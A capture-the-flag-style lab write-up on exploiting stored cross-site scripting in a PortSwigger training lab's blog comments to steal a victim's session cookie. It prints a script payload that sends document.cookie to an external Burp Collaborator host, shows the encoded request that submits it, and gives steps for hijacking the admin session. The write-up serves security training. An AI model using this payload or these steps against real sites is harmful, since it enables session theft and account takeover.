 # Exploiting cross-site scripting to steal cookies

## Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies) contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted.

## Reproduction and proof of concept

1. Using Burp Suite Professional, go to the Collaborator tab.
2. Click **Copy to clipboard** to copy a unique Burp Collaborator payload to the clipboard.
3. Submit the payload in a blog comment, inserting your Burp Collaborator subdomain where indicated. This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.

```text
<script>
    fetch('https://kocnw0mrbkcqli3hz8v75eaoofu6iw6l.oastify.com', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
</script>
```

The request contains

```text
csrf=v2vsUOVw1AzS5JTcIE0gfOxlGpqzwju5&postId=10&comment=%3Cscript%3E%0D%0A++++fetch%28%27https%3A%2F%2Fkocnw0mrbkcqli3hz8v75eaoofu6iw6l.oastify.com%27%2C+%7B%0D%0A++++method%3A+%27POST%27%2C%0D%0A++++mode%3A+%27no-cors%27%2C%0D%0A++++body%3Adocument.cookie%0D%0A++++%7D%29%3B%0D%0A%3C%2Fscript%3E&name=Evil&email=evil%40doer.com&website=
```

4. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's cookie in the POST body.

![XSS](/_static/images/xss2.png)

6. Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page.

## Exploitability

To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server, meaning Burp Pro.

And there is an alternative solution to this lab that does not require Burp Collaborator: Make the victim post their session cookie within a blog comment by exploiting the XSS to perform CSRF. This exposes the cookie publicly, and discloses evidence that the attack was performed. 
